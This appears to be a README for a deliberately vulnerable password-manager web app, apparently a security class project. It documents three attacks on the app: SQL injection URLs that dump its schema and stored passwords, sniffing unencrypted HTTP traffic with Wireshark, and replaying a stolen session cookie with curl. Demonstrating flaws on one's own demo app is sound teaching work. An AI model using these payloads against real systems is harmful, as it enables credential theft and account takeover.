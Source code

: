 # PasswordManager
Before running this application, set the host paramter in the ```app.run()``` function to your host ip address. 

#### Run the app with:
    python3 backend.py

### Exploit 1: SQL Injection
1. Create an account, log in, and save a password for some website.
2. Then enter the following urls.
3. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%20sql%20from%20sqlite_master;-- which gives all schema for database
4. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%website%20from%20password_table;-- for all websites with passwords stored
5. http://127.0.0.1:5000/get_password/google'%20UNION%20ALL%20SELECT%20password%20from%20password_table;-- for the corresponding passwords

### Exploit 2: Intercepting HTTP Requests
1. Download WireShark
2. Make sure you are on the same WiFi as targetted client (targetted client must be on a different device)
3. Open WireShark and filter by HTTP
4. Monitor user activity by observing HTTP Requests and Responses
5. Obtain information (master key, passwords, cookies)
### Exploit 3: Cookie Retrieval With JavaScript and Spoofing
1. Obtain a device that another user used to sign in to their password manager account (we assume that cookies were used by advertisements during their session)
   
    a. To simulate an ad using their cookies (because we did not want to get ads involved), before the previous user logs out, do Steps 2 and 3

2. Open developer tools and navigate to the console tab
3. Run the ```document.cookie ``` JavaScript function to view cookie information
4. Copy the cookie
5. Send an HTTP GET request to the server using the following command to obtain the password for the specified website. (Note that the previous user must have a password for that website stored in the database)
#
    curl --header "Cookie: session=<place cookie here>" --header "Host: <place host ip address and port number>" --header "Referer: <place host ip address and port number>/get_password" <place host ip address and port number>/get_password/<website>    
    
